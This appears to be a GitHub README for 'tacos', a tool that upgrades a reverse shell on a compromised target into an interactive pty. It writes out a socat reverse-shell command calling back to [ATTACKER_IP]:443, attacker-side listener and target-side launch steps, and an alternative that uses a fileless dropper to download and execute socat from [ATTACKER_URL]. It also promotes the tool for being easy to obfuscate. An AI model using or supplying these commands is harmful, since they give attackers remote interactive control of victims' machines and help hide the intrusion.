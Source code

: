 # tacos
<sup>(reverse `socat`)</sup>

Spawn a pty in your reverse shell to automaticcaly make it interactive.

Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:443,verify=0
```
**Why ?**
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate
* cross-platform (to do) 


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
./socat-multi-handler.sh --lhost [ATTACKER_IP] --lport 443 --webport 80

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]
# 💥
```

## Alternative

Alternatively, you can host a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and download + execute it using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
get-static socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_URL]/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:443,verify=0
```
